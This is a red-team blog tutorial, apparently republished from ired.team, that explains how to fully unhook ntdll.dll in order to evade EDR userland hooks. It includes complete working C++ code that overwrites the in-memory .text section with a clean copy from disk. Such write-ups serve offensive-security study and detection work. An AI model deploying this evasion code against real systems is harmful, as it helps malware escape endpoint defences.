 ```yaml
---
layout: post
title: "2024-06-18-how to unhook a dll using c++"
date: 2024-06-18
categories: defense-evasion
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /how-to-unhook-a-dll-using-c++/
---
```


---
description: EDR evasion
---

# Full DLL Unhooking with C++

It's possible to completely unhook any given DLL loaded in memory, by reading the .text section of ntdll.dll from disk and putting it on top of the .text section of the ntdll.dll that is mapped in memory. This may help in evading some EDR solutions that rely on userland API hooking.

## Overview

The process for unhooking a DLL is as follows. Let's assume that the  ntdll.dll is hooked and here is how we could unhook it:

1. Map a fresh copy of ntdll.dll from disk to process memory
2. Find virtual address of the .text section of the hooked ntdll.dll
   1. get ntdll.dll base address
   2. module base address + module's .text section VirtualAddress
3. Find virtual address of the .text section of the freshly mapped ntdll.dll
4. Get original memory protections of the hooked module's .text section
5. Copy .text section from the freshly mapped dll to the virtual address (found in step 3) of the original (hooked) ntdll.dll - this is the meat of the unhooking as all hooked bytes get overwritten with fresh ones from the disk
6. Apply original memory protections to the freshly unhooked .text section of the original ntdll.dll

Below is a simplified graph, illustrating the core concept of the technique, where a hooked .text section of ntdll.dll is replaced with a clean copy of .text section of ntdll.dll from disk:

![](<../../.gitbook/assets/image (570).png>)

## Code

Below code fully unhooks the ntdll.dll, although it could be modified to unhook any other DLL.

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>
#include <psapi.h>

int main()
{
	HANDLE process = GetCurrentProcess();
	MODULEINFO mi = {};
	HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
	
	GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
	LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
	HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
	PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

	for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
		
		if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
		}
	}
	
	CloseHandle(process);
	CloseHandle(ntdllFile);
	CloseHandle(ntdllMapping);
	FreeLibrary(ntdllModule);
	
	return 0;
}
```

{% hint style="warning" %}
Note that the above code does not fix image base relocations. Although ntdll.dll does not have anything to be relocated within its .text section, it may be required when dealing with other dlls.

Thanks [@mrgretzky](https://twitter.com/mrgretzky) for highlighting [this](https://twitter.com/mrgretzky/status/1271348438421159936).

See my notes about PE image relocations: [https://ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation](https://ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation)
{% endhint %}
@spotheplanet
